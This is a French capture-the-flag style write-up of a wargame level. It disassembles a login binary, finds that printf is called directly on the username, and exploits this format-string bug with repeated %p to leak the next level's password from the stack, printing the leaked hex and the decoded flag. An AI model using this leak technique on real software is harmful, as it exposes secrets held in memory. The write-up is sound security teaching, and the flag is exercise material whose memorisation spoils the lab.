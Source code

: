 # Level02

En lancant le binaire, on peut s'attendre a voir :
```sh
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username:
--[ Password:
*****************************************
 does not have access!
```

Ensuite en vérifiant la liste des symboles disponibles, on trouve:
```sh
Non-debugging symbols:
0x0000000000400640  _init
0x0000000000400670  strncmp
0x00000000004006b0  system
0x00000000004006c0  printf
0x00000000004006f0  fgets
0x0000000000400700  fopen
0x0000000000400710  exit
0x0000000000400814  main
```

Dans la premiere partie du code on peut voir :
```sh
	mov    edx,0x400bb0
	mov    eax,0x400bb2  # <-- 0x400bb2 Contient "/home/users/level03/.pass"
	mov    rsi,rdx
	mov    rdi,rax
	call   0x400700 <fopen@plt> # <-- Ouvre le fichier donner en parametre

```

Une fois avoir disass le main, on peut y trouver :
```sh
	mov    edx,0x29               # <-- EDX = 41
	mov    rsi,rcx                # <-- RSI = Le password qui se trouvera dans le fichier "/home/users/level03/.pass"
	mov    rdi,rax                # <-- RDI = L'input du password
	call   0x400670 <strncmp@plt> # <-- Strncmp compare les registre rsi et rdi et prends en lenght edx
	test   eax,eax                # <-- Pour atteindre system il faut que eax = 0
	jne    0x400a96 <main+642>
	mov    eax,0x400d22
...
	call   0x4006c0 <printf@plt>
	mov    edi,0x400d32            # <-- Contient "/bin/sh"
	call   0x4006b0 <system@plt>   # <-- Besoin de passer par cette ligne
...
	call   0x4006c0 <printf@plt>   # <-- Cette appel a printf engendre une erreur
	mov    edi,0x400d3a
	call   0x400680 <puts@plt>

```


Vu que le code fais une comparaison pour pouvoir acceder a l'appel de la function systeme il nous faut le code qui se trouve dans le fichier `.pass`.


```c
	char username [100];
...
	printf("--[ Username: ");
	fgets(username,100,stdin);
...
	printf(username); // Cette ligne cree une erreur car il n'est pas specifice de type avec le %.
	puts(" does not have access!");
```

Donc nous allons l'utiliser pour trouver le mot de passe du fichier `.pass`.

Le mot de passe est stoqué dans un buffer se trouvant sur la stack. À chaque paramètre
supplémentaire présent dans le `printf`, on recule sur la stack. Cela nous permet de l'afficher.

En affichant un maximum de `%p`, on peut assez rapidement se faire une bonne idée de ce à quoi
ressemble cette stack.

En testant plusieurs possibilités, on trouve assez rapidement les valeurs:

```
0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d
```

Le reste est principalement des valeurs nulles, ou des pointeurs. Ces valeurs sont petit
boutiste. Il faut donc les convertir. On peut utiliser [ce service](https://www.save-editor.com/tools/wse_hex.html)
pour la convertion.

Cela donne:

```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

C'est notre flag.
